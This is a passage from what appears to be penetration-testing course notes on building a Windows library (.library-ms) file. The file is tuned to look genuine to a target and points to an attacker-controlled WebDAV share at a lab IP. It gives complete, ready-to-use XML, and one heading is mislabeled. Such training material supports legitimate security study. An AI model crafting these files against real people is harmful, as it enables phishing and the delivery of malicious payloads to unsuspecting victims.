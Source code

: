 #### Add the _isLibraryPinned_ tag and _iconReference_
```
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
```
This element specifies if the library is pinned to the navigation pane in Windows Explorer. For our targets, this may be another small detail to make the whole process feel more genuine and therefore, we'll set it to **true**. _iconReference_ determines what icon is used to display the library file.

We must specify the value in the same format as the name element. We can use **imagesres.dll** to choose between all Windows icons. We can use index "-1002" for the **Documents** folder icon from the user home directories or "-1003" for the **Pictures** folder icon.

#### Add the _templateInfo_ tags, which contain the _folderType_ tags
```
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
```
These tags determine the columns and details that appear in Windows Explorer by default after opening the library. We'll need to specify a GUID that we can look up on the _Microsoft documentation_ webpage

#### templateInfo and folderType tags
```
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>

</libraryDescription>
```
The most important tag is _url_, which we need to point to our previously-created WebDAV share over HTTP.

#### Entire XML
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.197</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
